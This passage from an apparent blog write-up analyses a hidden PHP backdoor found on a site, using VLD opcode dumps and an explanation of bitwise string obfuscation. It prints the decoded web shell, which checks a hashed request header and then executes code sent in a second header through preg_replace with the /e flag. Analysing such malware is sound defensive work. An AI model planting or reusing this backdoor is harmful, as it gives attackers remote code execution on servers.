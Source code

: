 ```
       155      CONCAT                                           ~1      !16, !17
       156      CONCAT                                           ~0      ~1, !18
       157      SEND_VAL                                                 ~0
       158      DO_FCALL_BY_NAME                              1  $0
       159      EXT_FCALL_END
       160      SEND_VAR_NO_REF                               4          $0
       161      SEND_VAR                                                 !25
       162      DO_FCALL_BY_NAME                              4
       163      EXT_FCALL_END
  21   164  >   EXT_STMT
       165    > RETURN                                                   1

branch: #  0; line:     3-   17; sop:     0; eop:   146; out1: 147; out2: 164
branch: #147; line:    17-   21; sop:   147; eop:   163; out1: 164
branch: #164; line:    21-   21; sop:   164; eop:   165
path #1: 0, 147, 164,
path #2: 0, 164,
```

While this is decoded from the series of trees and pointers that PHP uses to
keep track of pointers it does take a little finesse to even understand what
the opcodes are trying to do.  What that means is you have to just go
back and forth with the [opcode reference guide][zend2_opcodes].  But what does
it all mean?!

Well, looking at it you can see there are a _lot_ of `BW_OR` and `BW_AND` - the
bitwise operators `|` and `&`.  What's interesting about this is that, like in
the first one (`BW_AND 'dvADoy', ~1`) the operator is working on a string.
Bitwise operations on strings do work!  It applies the bitwise operators to each
character in the string.  This just spells ugliness.  Well, actually, it spells
` 0D(8` - still ugly.

Reading further down it is mostly bitwise operations on strings, concatenations (`CONCAT`),
and defining more string literals (`FETCH_CONSTANT`).

???

When you put it all together we have our script in a way even mortals can
comprehend.

{% highlight php startinline %}

if (!levenshtein(md5(getenv('HTTP_A')), '498b562f03c70a188e185ac533e5e03f'))
	call_user_func(
        'preg_replace',
        ',[Zj],mie',
        getenv('HTTP_XID'),
        'eC11cC1jYWxsaW5nLWxpbmUtaWQ='
    );

{% endhighlight %}

The script checked if an MD5 checksum of the `A` header received from the client
matched a known hash.  If it did it executed any code found in the received
`XID` header.  What did it mean for the user, though?  They still had no idea
what code was run and were no closer to knowing what more could have happened
than before.

They deleted the file, cursed a bit, and were on their way just as quickly as
they arrived.  Just another normal day.


[pecl_vld]: http://pecl.php.net/package/vld
[zend2_opcodes]: http://php.net/manual/internals2.opcodes.php
